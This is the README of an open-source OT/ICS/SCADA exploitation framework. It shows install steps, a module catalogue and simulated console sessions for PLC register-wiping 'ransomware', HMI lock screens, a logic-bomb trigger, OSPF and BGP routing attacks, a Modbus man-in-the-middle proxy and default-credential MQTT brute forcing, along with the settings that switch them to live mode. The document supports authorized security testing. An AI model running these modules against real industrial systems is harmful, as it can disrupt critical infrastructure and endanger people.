

# IndustrialXPL-Forge (IXF)

> **The World's Largest OT/ICS/SCADA Security Assessment & Exploitation Framework**
> Part of the XPL-Forge suite | Author: André Henrique ([@mrhenrike](https://github.com/mrhenrike)) | [União Geek](https://uniaogeek.com.br/)

[](https://pypi.org/project/industrialxpl-forge/)
[](https://pypi.org/project/industrialxpl-forge/)
[](https://opensource.org/licenses/MIT)
[](https://github.com/mrhenrike/IndustrialXPL-Forge/actions)
[](https://github.com/mrhenrike/IndustrialXPL-Forge)
[](https://github.com/mrhenrike/IndustrialXPL-Forge)
[](https://github.com/mrhenrike/IndustrialXPL-Forge)
[](https://attack.mitre.org/matrices/ics/)
[](https://github.com/mrhenrike/IndustrialXPL-Forge)

**Python-First. Pure Python implementation — install and run with a single `pip install`.**

---

## Quick Start

```bash
pip install industrialxpl
ixf
```

Or from source:

```bash
git clone https://github.com/mrhenrike/IndustrialXPL-Forge
cd IndustrialXPL-Forge
pip install -r requirements.txt
python ixf.py
```

---

## What is IXF?

IndustrialXPL-Forge is a modular, Python-native security assessment and exploitation framework for **Operational Technology (OT)**, **Industrial Control Systems (ICS)**, **SCADA**, **HMI**, **PLC**, **RTU**, **DCS**, and **IIoT** environments.

It covers the **complete attack lifecycle**:

```
OSINT → Discovery → Fingerprint → Vulnerability Check → Exploit → Report
```

**Key features:**
- **Python-First**: all core functionality works with `pip install industrialxpl` — external runtimes (C, Go, Java) are optional accelerators with Python fallbacks built in
- **SafeMode by default**: every module runs in simulate mode — prints payload without sending
- **MITRE ATT&CK for ICS v19**: 79 techniques mapped, `ttp T0843 192.168.1.100` syntax
- **CVE coverage**: 3,300+ ICS/OT CVEs from CVSS 0.1 to 10.0
- **50 vendors**: Siemens, Schneider, Rockwell, ABB, Honeywell, Emerson, WEG, and more
- **50 protocols**: Modbus, S7comm, EtherNet/IP, DNP3, BACnet, IEC-104, OPC UA, PROFINET, and more

---

## Module Catalog

| Category | Modules | Description |
|----------|---------|-------------|
| `exploits/protocols/` | ~50 | Modbus, S7, ENIP, DNP3, BACnet, Profinet, IEC104, OPC UA |
| `exploits/plc/` | ~80 | Siemens, Schneider, Rockwell, GE, Beckhoff, Unitronics, ABB |
| `exploits/scada/` | ~60 | IGSS, RealWin, Genesis32, CoDeSys, FUXA, CitectSCADA |
| `exploits/mes/` | ~25 | Ignition, ThinManager, SIMATIC Historian, DELMIA Apriso |
| `scanners/ics/` | ~50 | Protocol-specific discovery (Modbus, S7, BACnet, DNP3...) |
| `scanners/osint/` | ~8 | Shodan queries, ELITEWOLF web dorks, OT Hunt |
| `creds/` | ~55 | Default credentials for 50+ OT/ICS vendors |
| `cve/` | 3,300+ | All CVE severity levels (CVSS 0.1-10.0), 3 implementation tiers |
| `cve/apt/` | ~10 | APT malware TTPs: FrostyGoop, Industroyer2, TRITON, INCONTROLLER |
| `assessment/` | ~25 | IEC 62443, NIST 800-82r3, MITRE ICS, risk scoring, IR playbook |

---

## Usage Examples

```
# Open the IXF interactive shell
ixf

# Load and run a module (simulate mode by default — safe)
ixf > use scanners/ics/modbus_detect
ixf > set target 192.168.1.100
ixf > check

# Search for modules
ixf > search siemens
ixf > search CVE-2015-5374
ixf > search modbus

# Execute a TTP-ID against a target
ixf > ttp T0843 192.168.1.100          # Program Download — all modules
ixf > ttp T0878 10.0.0.0/24            # Alarm Suppression — subnet sweep
ixf > ttp-list --tactic evasion        # List all Evasion TTP-IDs

# MITRE ATT&CK for ICS sweep
ixf > mitre-scan discovery 192.168.1.0/24
ixf > mitre-scan evasion 192.168.1.100
ixf > mitre-all 192.168.1.100          # All 79 techniques (simulate by default)
ixf > mitre-coverage                   # Show coverage % per tactic

# CVE-specific modules
ixf > cve CVE-2026-25895               # FUXA SCADA pre-auth RCE
ixf > cve CVE-2015-5374               # Siemens SIPROTEC4 DoS
ixf > cve-scan 192.168.1.0/24         # Discover assets + test all CVEs

# Generate reports
ixf > report json
ixf > mitre-report layer               # ATT&CK Navigator JSON layer
```

---

## SafeMode / DestructiveMode

**Every module defaults to simulate mode** — it prints what it WOULD do without sending any packets.

```
ixf (FrostyGoop) > run                 # SIMULATE: prints payload, no send
ixf (FrostyGoop) > set simulate false
ixf (FrostyGoop) > set destructive true
ixf (FrostyGoop) > run                 # LIVE: shows banner + requires confirmation
```

Impact levels require proportional confirmation:
- `INFO/READ`: automatic
- `LOW`: simple warning
- `MEDIUM`: press Enter
- `HIGH`: type `yes`
- `CRITICAL`: type the full confirmation string
- `CATASTROPHIC`: type string + wait 10 seconds

All destructive operations are logged to `.log/destructive_ops_YYYY-MM-DD.log`.

---

## Python-First Policy

| Tier | Type | Examples | Required? |
|------|------|----------|-----------|
| **0** | Python stdlib | socket, struct, select | Always |
| **1** | pip install | pymodbus, scapy, rich, requests | Yes |
| **2** | pip extras | asyncua, cpppo, python-can | Optional |
| **3** | External runtimes | ruby, node, java, gcc, go | **Optional — Python fallback always available** |

All SCADA framework modules are implemented natively in Python — no additional tools required.

---

## Documentation

Full documentation is available in both English and Brazilian Portuguese:

| Language | Link |
|----------|------|
| English (en-US) | [docs/en-us/](docs/en-us/_index.md) |
| Português (pt-BR) | [docs/pt-br/](docs/pt-br/_index.md) |

**Quick links:**

| Topic | en-US | pt-BR |
|-------|-------|-------|
| Installation | [01-installation](docs/en-us/01-installation.md) | [01-instalacao](docs/pt-br/01-instalacao.md) |
| Quick Start | [02-quick-start](docs/en-us/02-quick-start.md) | [02-inicio-rapido](docs/pt-br/02-inicio-rapido.md) |
| Shell Reference (35 commands) | [03-shell-reference](docs/en-us/03-shell-reference.md) | [03-referencia-shell](docs/pt-br/03-referencia-shell.md) |
| Module System & Option Types | [04-module-system](docs/en-us/04-module-system.md) | [04-sistema-modulos](docs/pt-br/04-sistema-modulos.md) |
| SafeMode / DestructiveMode | [05-safemode](docs/en-us/05-safemode-destructivemode.md) | [05-safemode](docs/pt-br/05-safemode-destructivemode.md) |
| MITRE ATT&CK for ICS | [06-mitre](docs/en-us/06-mitre-attack-ics.md) | [06-mitre](docs/pt-br/06-mitre-attack-ics.md) |
| SAST / LLM Analysis | [07-sast](docs/en-us/07-sast-llm.md) | [07-sast](docs/pt-br/07-sast-llm.md) |
| Protocols & Vendors | [08-protocols](docs/en-us/08-protocols-vendors.md) | [08-protocolos](docs/pt-br/08-protocolos-vendors.md) |
| Module Development | [09-dev](docs/en-us/09-module-development.md) | [09-desenvolvimento](docs/pt-br/09-desenvolvimento-modulos.md) |
| CLI Non-Interactive | [10-cli](docs/en-us/10-cli-noninteractive.md) | [10-cli](docs/pt-br/10-cli-nao-interativo.md) |
| PolyExploit Runner | [11-poly](docs/en-us/11-poly-exploit-runner.md) | [11-poly](docs/pt-br/11-poly-exploit-runner.md) |
| Assessment & Compliance | [12-assessment](docs/en-us/12-assessment-compliance.md) | [12-assessment](docs/pt-br/12-assessment-conformidade.md) |

---

## BLOCO J - Attack Categories (v2.0.0)

> **LEGAL WARNING:** All modules in this section are for **authorized security testing, research, and educational use only**. Execution against systems without explicit written authorization is a federal crime under computer fraud statutes in most jurisdictions. Ransomware/wiper modules require triple confirmation. The authors and Uniao Geek assume no liability for misuse.

### Ransomware (OT/ICS) - Educational Simulation Only

> **WARNING:** Ransomware modules are STRICTLY SIMULATE-ONLY by default.
> Triple confirmation required for live execution. Unauthorized use is a federal crime.

```bash
ixf > use exploits/ransomware/plc_project_locker
ixf (PLCProjectLocker) > set target 192.168.1.10
ixf (PLCProjectLocker) > set port 502
ixf (PLCProjectLocker) > set simulate true   # Required safety flag
ixf (PLCProjectLocker) > run

[SIMULATE] Modbus TCP connection to 192.168.1.10:502
[SIMULATE] Would write zeros to holding registers: FC16 @ addr 0 len 125
[SIMULATE] 2 FC16 requests required (123 + 2 registers)
[SIMULATE] Impact: PLC would halt program execution - CISA AA26-097A TTP
[!] To run live: set simulate false, set destructive true
[!] Then type exact confirmation string when prompted: I_UNDERSTAND_THIS_IS_DESTRUCTIVE
```

```bash
ixf > use exploits/ransomware/hmi_display_ransomware
ixf (HMIDisplayRansomware) > set target 192.168.1.20
ixf (HMIDisplayRansomware) > set display_register 1000
ixf (HMIDisplayRansomware) > set simulate true
ixf (HMIDisplayRansomware) > run

[SIMULATE] Would write 20 registers (40 chars) at Modbus register 1000
[SIMULATE] HMI screen would show: "YOUR SYSTEM IS LOCKED..."
[SIMULATE] Based on TRITON/TRISIS HMI manipulation TTP
[!] Triple gate required for live execution
```

| Module | Path | Impact | Requires |
|--------|------|--------|----------|
| `plc_project_locker` | `exploits/ransomware/` | CATASTROPHIC | Triple gate |
| `hmi_display_ransomware` | `exploits/ransomware/` | CATASTROPHIC | Triple gate |

### Persistence

> **WARNING:** Logic bomb modules simulate activation of pre-planted PLC routines. Unauthorized execution disrupts physical processes.

```bash
ixf > use exploits/persistence/plc_logic_bomb_inject
ixf (PLCLogicBombActivate) > set target 192.168.1.10
ixf (PLCLogicBombActivate) > set trigger_register 9999
ixf (PLCLogicBombActivate) > set trigger_value 0xDEAD
ixf (PLCLogicBombActivate) > set simulate true
ixf (PLCLogicBombActivate) > run

[SIMULATE] Would write value 0xDEAD (57005) to holding register 9999
[SIMULATE] On 192.168.1.10:502 unit_id=1 using FC16
[SIMULATE] If a logic bomb routine monitors register 9999, it will activate
[SIMULATE] Based on INCONTROLLER/PIPEDREAM ICS malware TTPs (Dragos 2022)
[!] Set destructive true to execute after confirmation
```

| Module | Path | Impact | Reference |
|--------|------|--------|-----------|
| `plc_logic_bomb_inject` | `exploits/persistence/` | HIGH | CISA AA22-103A, Dragos CHERNOVITE |

### Routing Table Poisoning

> **WARNING:** Routing injection attacks redirect network traffic and may disrupt production OT/IT services. Authorized lab use only.

```bash
ixf > use exploits/routing/ospf_lsa_inject
ixf (OSPFLSAInject) > set iface eth0
ixf (OSPFLSAInject) > set area_id 0.0.0.0
ixf (OSPFLSAInject) > set poison_prefix 10.0.0.0
ixf (OSPFLSAInject) > set simulate true
ixf (OSPFLSAInject) > run

[SIMULATE] OSPF LSA Type Router (Type 1) would be crafted:
[SIMULATE]   Area: 0.0.0.0 / Router-ID: 192.168.1.100
[SIMULATE]   Network: 10.0.0.0/255.255.255.0 via metric=1
[SIMULATE] LSU packet (72 bytes): 02010024...
[SIMULATE] Would send to 224.0.0.5 (AllSPFRouters) x3 on eth0
[!] PREREQ: Scapy + network segment running OSPF (unauthenticated)
```

```bash
ixf > use exploits/routing/bgp_vortex_dos
ixf (BGPVortexDoS) > set target 10.0.0.1
ixf (BGPVortexDoS) > set attacker_as 65001
ixf (BGPVortexDoS) > set victim_as 65000
ixf (BGPVortexDoS) > set simulate true
ixf (BGPVortexDoS) > run

[SIMULATE] Would establish BGP session to 10.0.0.1:179
[SIMULATE] UPDATE-A: AS_PATH=[65001,65000] MED=100 COMMUNITY=65001:100
[SIMULATE] UPDATE-B: WITHDRAW + re-announce AS_PATH=[65001] MED=200
[SIMULATE] UPDATE-C: AS_PATH=[65001,65000,65001] MED=50 COMMUNITY=65001:50
[SIMULATE] These trigger persistent oscillation in BGP Decision Process (Vortex)
[SIMULATE] Reference: Stoeger et al., USENIX Security 2025 - BGP Vortex
```

| Module | Path | Impact | Reference |
|--------|------|--------|-----------|
| `ospf_lsa_inject` | `exploits/routing/` | HIGH | DCmal-2025 OSPF spoofing (MDPI 2025), RFC 2328 |
| `bgp_vortex_dos` | `exploits/routing/` | HIGH | Stoeger et al., USENIX Security 2025 |

### MiTM - Modbus TCP Inline

> **WARNING:** Inline proxy with value injection falsifies sensor readings delivered to operators. May cause process misjudgment with physical consequences. Authorized lab only.

```bash
ixf > use assessment/lateral/modbus_mitm_inline
ixf (ModbusMiTM) > set target 192.168.1.10       # PLC
ixf (ModbusMiTM) > set listen_host 0.0.0.0
ixf (ModbusMiTM) > set listen_port 1502           # Attacker proxy port
ixf (ModbusMiTM) > set simulate true
ixf (ModbusMiTM) > run

[SIMULATE] Would bind TCP proxy on 0.0.0.0:1502
[SIMULATE] Forwarding all connections to real PLC at 192.168.1.10:502
[SIMULATE] All Modbus frames logged with decoded function code info
[SIMULATE] Value injection DISABLED (passive logging only)

# Live passive capture (no value injection - only destructive false needed):
ixf (ModbusMiTM) > set simulate false
ixf (ModbusMiTM) > run

[*] Modbus MiTM proxy started on 0.0.0.0:1502
[*] Forwarding to 192.168.1.10:502
[+] Client connected: 192.168.1.50
[>] FC3 ReadHoldingRegs addr=0 count=10 -> PLC
[<] Response: 10 registers [0x0001, 0x00F2, ...]
[>] FC16 WriteRegs addr=0 data=[...] -> PLC  [LOGGED]
```

| Module | Path | Impact | Prerequisites |
|--------|------|--------|---------------|
| `modbus_mitm_inline` | `assessment/lateral/` | HIGH | ARP poisoning active (modbus_arp_mitm first) |

### Credential Attacks

```bash
ixf > use creds/generic/ics_mqtt_bruteforce
ixf (MQTTBruteforce) > set target 192.168.1.50
ixf (MQTTBruteforce) > set port 1883
ixf (MQTTBruteforce) > set simulate true
ixf (MQTTBruteforce) > run

[SIMULATE] Would attempt 18 credential pairs against MQTT broker at 192.168.1.50:1883
[SIMULATE] First 5: admin:admin, admin:password, admin:, :, guest:guest
[SIMULATE] Source: built-in ICS defaults (Mosquitto, HiveMQ, EMQX, SCADA-specific)
```

| Module | Path | Impact | Reference |
|--------|------|--------|-----------|
| `ics_mqtt_bruteforce` | `creds/generic/` | MEDIUM | OASIS MQTT v3.1.1, MITRE T0806 |

### CVE 2025

| Module | Path | CVE | Description |
|--------|------|-----|-------------|
| `siemens_telecontrol_cve_2025` | `cve/siemens/` | CVE-2025-28390 | Siemens TeleControl Server Basic authentication bypass + path traversal. CVSS 9.8. |

### Coverage Summary

| Category | Modules | Default Mode |
|----------|---------|-------------|
| Ransomware / Impact | `plc_project_locker`, `hmi_display_ransomware` | simulate=True (triple gate for live) |
| Persistence | `plc_logic_bomb_inject` | simulate=True |
| Routing (RTP) | `ospf_lsa_inject`, `bgp_vortex_dos` | simulate=True |
| MiTM | `modbus_arp_mitm`, `modbus_mitm_inline` | simulate=True |
| Credentials | `ics_mqtt_bruteforce`, + 30+ vendor modules | simulate=True |
| CVE 2025 | `siemens_telecontrol_cve_2025` | simulate=True |

All destructive modules default to `simulate=True`. Ransomware/wiper modules require triple gate confirmation: `simulate=False` + `destructive=True` + `explicit_confirm="I_UNDERSTAND_THIS_IS_DESTRUCTIVE"`.

---

## Legal Disclaimer

This tool is intended for **authorized security testing, research, and educational purposes only**.

Using IndustrialXPL-Forge against systems you do not own or do not have **explicit written authorization** to test is **illegal** and may violate computer fraud laws in your jurisdiction.

OT/ICS systems control critical physical infrastructure. Unauthorized use may cause:
- Physical damage to industrial equipment
- Disruption of essential services (power, water, gas, manufacturing)
- Personal injury or death
- Significant legal penalties

**The authors and União Geek assume no liability for misuse. Users bear full legal and ethical responsibility for all actions performed with this tool.**

---

## Author & Credits

**Author:** André Henrique ([@mrhenrike](https://github.com/mrhenrike)) | [União Geek](https://uniaogeek.com.br/)

Module sources: EmbedXPL-Forge (suite sibling), ISF/ICSSploit, ModBusSploit, n-days-poc-benchmark, InduGuard, ZeronTek OT Hunt research, CISA ICS-CERT advisories, Vedere Labs OT:ICEFALL, ExploitDB ICS catalog, GitHub public PoCs.
